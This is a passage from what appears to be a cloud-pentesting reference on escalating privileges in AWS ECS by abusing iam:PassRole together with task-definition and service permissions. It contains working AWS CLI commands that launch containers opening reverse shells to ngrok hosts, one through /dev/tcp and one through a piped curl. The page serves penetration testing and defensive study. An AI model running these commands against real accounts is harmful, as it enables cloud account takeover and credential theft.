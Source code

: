 ### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** or **`ecs:CreateService`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it by creating a new service with at least 1 task running.**

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn  "$ECS_ROLE_ARN" \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
    --task-definition iam_exfiltration \
    --desired-count 1 \
    --cluster "$CLUSTER_ARN" \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
    --service <SERVICE NAME> \
    --task-definition <NEW TASK DEFINITION NAME>
```

**Potential Impact:** Direct privesc to any ECS role.

### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`

Actually, just with those permissions it's possible to use overrides to executer arbitrary commands in a container with an arbitrary role with something like:

```bash
aws ecs run-task \
    --task-definition "<task-name>" \
    --overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
    --cluster <cluster-name> \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```

**Potential Impact:** Direct privesc to any ECS role.

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**
